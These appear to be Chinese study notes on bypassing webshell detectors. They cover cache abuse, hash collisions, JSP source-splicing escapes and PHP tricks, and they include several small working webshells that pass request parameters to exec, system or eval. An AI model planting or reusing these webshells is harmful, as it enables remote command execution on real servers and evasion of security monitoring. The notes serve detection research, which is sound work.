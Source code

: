 

# Webshell检测学习

## 1.缓存导致的绕过

起因：

	众所周知，现在的Webshell检测大部分都是多引擎，可能有静态分析、动态沙箱、机器学习之类的，特别是沙箱，其实是一个很消耗资源的东西。而HIDS部署在一些大公

司，可能有巨量的文件需要检测，这时候通常会有下面几个方法来缓解资源上的压力：

* 只检测特定后缀的文件
* 对于已经检测过的文件，缓存检测结果，下次不再检测
	思路：

	1.脚本类型的混淆，即根据分拣器将不同脚本类型的文件分给对应的脚本语言检测引擎来检测进行绕过。

	比如在1.jsp文件中写php的webshell,上传以后，检测引擎解析后发现jsp文件中没有java语言，于是将其判断为正常的webshell，并将其内容进行缓存。这样以后，下一次再次上传一个相同内容的1.php文件时，由于在缓存中检测到有完全相同hash值内容的文件，于是就直接让这个文件通过，不进行检测

	2.哈希碰撞

	利用hash碰撞找到一组文件名和文件内容哈希后hash值相同的文件，一个是完全正常的文件，一个是webshell，先上传正常的文件，让其存入到缓存中，再上传webshell达成绕过。

## 2.JSP解释流程导致

​      	在用户第一次请求JSP文件的时 候，Tomcat会先将JSP文件拼接成一个Java类的源文件（.java后缀），保存在临时目录下，接着再编译 这个源文件成字节码，最后放进JVM里运行。 借用文章里的一张图来说明这个过程，图1： 这个过程中可能存在问题的就是第一步，拼接/解析JSP的过程。 安全世界里有很多问题都是拼接导致的，比如SQL注入、命令注入等，这些漏洞之所以存在问题，就是 因为没有考虑到拼接时可能产生的“闭合”的问题。一旦拼接时对前面的内容进行了闭合，就可以逃逸出 上下文，进而执行一些非预期的操作。 

![image-20220919160952152](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220919160952152.png)


```plain
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    String data = request.getParameter("test");
    hack(data);
    } catch (java.lang.Throwable t) {} finally { _jspxFactory.releasePageContext(_jspx_page_context); }
    }
    public void hack(String data) throws java.io.IOException, javax.servlet.ServletException
    {
    javax.servlet.jsp.JspWriter out = null;
    javax.servlet.jsp.JspWriter _jspx_out = null;
    javax.servlet.jsp.PageContext _jspx_page_context = null;
    javax.servlet.http.HttpServletResponse response = null;
    try {
    Runtime.getRuntime().exec(data);
%>
```
![image-20220919160941216](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220919160941216.png)


 这样在jsp中看来，我的代码是有语法问题的，它 包含一个函数的下半部分，和另一个函数的上半部分；但这段代码拼接进Java源文件后，这两半部分都 分别正确闭合了，解析不会有问题。

## 3.正则exec

1. preg_replace 数组绕过

   ![image-20220919160906034](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220919160906034.png)


利用preg_replace检测参数可接受数组来进行绕过

```php
 原 preg_replace('/.*/e', '\0', $_REQUEST[2333]);
改后 preg_replace(['/.*/e'], '\0', $_REQUEST[2333]);
```
### 4. PHP函数利用

####  	1.mt_srand+shuffle

```php
<?php
$arr = array("t", "n1k0la", "webdxg", "system");
function shift(&$arr){
mt_srand($_GET[0]); //改变数组的key value对应
shuffle($arr);
}
shift($arr);
$arr[2]($_GET[1]); //动态函数执行
```

#### 2.引用赋值

​	于 PHP 内部工作的特殊性，如果对数组的单个元素进行引用，然后复制数组，无论是通过赋值还是通 过函数调用中的值传递，都会将引用复制为数组的一部分。这意味着对任一数组中任何此类元素的更改 都将在另一个数组（和其他引用中）中重复，即使数组具有不同的作用域（例如，一个是函数内部的参 数，另一个是全局的）！在复制时没有引用的元素，以及在复制数组后分配给其他元素的引用，将正常 工作（即独立于其他数组）。 

​	为了验证上面的说法，我们这里 xdebug_debug_zval 查看变量 a 和 c 的信息，可以看到 $a[0] 和 $c[0] 被标为了 is_ref ，也就是说它们是一个引用类型 为了更严谨一点，这里通过 gdb 对 PHP 进行调试，可以看到gdb中 $a[0] 和 $c[0] 也是被标为了 is_ref 并且都指向同一内存地址，这也就验证了为什么修改 c[0] 也会导致 a[0] 改变。

```php
<?php 
$a=array(1=>'A');
$b=&$a[1];
$c=$a;
$c[$_GET['num']]=$_GET['cmd'];
eval($a[1]);
?>
```



​	

